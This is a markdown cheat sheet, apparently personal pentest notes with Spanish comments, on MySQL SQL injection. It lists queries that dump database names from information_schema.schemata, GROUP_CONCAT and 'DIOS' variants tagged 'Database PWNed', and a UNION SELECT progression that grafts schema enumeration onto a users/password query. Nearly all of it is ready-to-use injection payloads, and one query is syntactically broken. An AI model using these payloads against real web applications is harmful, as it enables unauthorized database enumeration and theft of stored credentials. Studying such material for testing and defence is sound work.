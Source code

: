 # SQLi: schema, schemata & DIOS

## Fz3r0 SQLi: `schema_name` (Databases) mini bible

````sql
## Schema Name AKA Databases Names Dump
SELECT schema_name FROM information_schema.schemata;

---

## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;

---

## Concat Basic Query
SELECT CONCAT(schema_name) FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT CONCAT('Database PWNed : ',(schema_name)) FROM information_schema.schemata;

---
````

---

<br>

<br>

<br>

<br>

## Basics: `information schema`

### Query basic

````sql
## Schema Name AKA Databases Names Dump
select schema_name CONCAT information_schema.schemata;
````

---

### Group Concat

#### Basic

````sql
## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT GROUP_CONCAT(schema_name SEPARATOR ' : ') FROM information_schema.schemata;

## Mini DIOS
SELECT GROUP_CONCAT('Database PWNed: ',schema_name) FROM information_schema.schemata;
````

---

### Concat

#### Basic

````sql
## Concat Basic Query
SELECT concat(schema_name) FROM information_schema.schemata;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT concat(schema_name, ' : ') FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT concat('Database PWNed : ',(schema_name)) FROM information_schema.schemata;
````

---

<br>

<br>

<br>

<br>

## Query Basics: `Union` + `Group Concat`

#### `Union Select` Progression:

````sql
## Original example v1:
select username,password from users;

## Original example v2:
select username,password from users where username = 'F0n3';

## Basic Union Select (v1)
select username,password from users union select 1,2;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' union select 1,2;

## Condition Union Select, strings a palcer (v2):
select username,password from users where username = 'F0n3' union select 'izquierda','derecha';
````

---

<br>

<br>

<br>

<br>

## `schema_name`: Databases Names Enum

#### `Union Select` + `schema_name`

````sql
##     Tip: básicamente se inserta el basic query (SELECT schema_name FROM information_schema.schemata;) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,schema_name FROM information_schema.schemata;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata;
````

#### `Group Concat` + `Union Select` + `schema_name`

````sql
##     Tip: básicamente se inserta el query de union select un "GROUP_CONCAT" (GROUP CONCAT(schema_name)) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;
````



